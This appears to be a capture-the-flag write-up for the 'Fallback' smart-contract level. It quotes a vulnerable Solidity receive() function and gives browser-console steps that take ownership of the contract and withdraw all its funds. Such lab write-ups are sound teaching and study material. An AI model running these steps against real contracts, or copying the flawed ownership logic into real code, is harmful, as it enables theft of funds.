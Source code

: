 # **Level 01 — Fallback**

## 🎯 Goal  
Take ownership of the contract and withdraw all funds.

## 💥 Vulnerability  
The contract incorrectly allows ownership to be transferred to anyone who:
1. Calls the `contribute()` function with a small amount of Ether (so their contribution is > 0 and < 0.001 ether),
2. Then sends Ether directly to the contract (triggering the receive() function).

The part of the vulnerable code:
```solidity 
// Solidity code 
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check current owner
contract.owner()

// 1. Make a small contribution
await contract.contribute({value: 100000000000000})

// 2. Verify contribution
(await contract.getContribution()).toString()

// 3. Take ownership by triggering receive 
await contract.sendTransaction({value: 100000000000000})

// 4. Confirm new ownership
contract.owner()

// 5. Withdraw all funds
await contract.withdraw()
```

## 🧙 Outcome
Ownership was successfully taken, and contract balance was drained using receive-based privilege escalation.
